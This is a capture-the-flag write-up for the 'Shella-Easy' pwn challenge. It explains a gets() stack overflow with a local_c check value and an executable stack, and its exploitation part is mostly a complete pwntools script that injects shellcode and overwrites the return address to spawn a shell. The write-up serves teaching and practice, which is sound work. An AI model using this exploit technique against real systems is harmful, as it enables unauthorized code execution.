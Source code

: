 # Shella-Easy (pwn)

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/19dc4965-f4e9-4930-8bb6-ef6a02bc1f89)  

If we run the program we get the following output  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/0f9b9140-7703-4e2b-9198-9921dc1a28f8)  

This seems to be pretty similar to [pilot](./csaw17_pilot.md), but we won't be sure until we look at the binary.  
A wise man once told me "Even if you have the source code, only the binary holds the truth".  
Ghidra shows the following  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/c49d0218-4f52-43ad-b271-facb0b86f485)  

We can see the use of gets, which in conjunction with no NX bit, means that we can utilize shellcode to exploit this binary.  
There is a tiny inconvenience however, there is a check for `local_c` to ensure that it is equal to a specific value.  
So when overwriting we have to ensure that we overwrite `local_c` with the correct value.  

## Exploitation  
Since we can't just throw `cyclic()` at the binary and figure out at which offset the return address is, we first need to make sure we can overwrite `local_c` with the correct value.  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/5d86c303-f437-4849-b52c-b6fb19da3c2f)  
Looking at the stack layout in Ghidra we can see that the buffer and `local_c` are contiguous, so we can just fill the buffer and the next data will be `local_c`.  
Once we get that working we can continue as usual, using `cyclic()` to figure out the offset from there, and then overwrite the return address with the beginning of our buffer.  

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template shella-easy
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'shella-easy')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX unknown - GNU_STACK missing
# PIE:      No PIE (0x8048000)
# Stack:    Executable
# RWX:      Has RWX segments

io = start()

shellcode = asm(shellcraft.sh())

io.recvuntil(b'have a ')

addr = int(io.recv(10),16)

padding = (64-len(shellcode))*b'A'

io.sendline(shellcode + padding + p32(0xdeadbeef) + b'B'*8 + p32(addr))

io.interactive()
```

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/0fa24d54-e80d-4779-afd8-f3e85374976b)



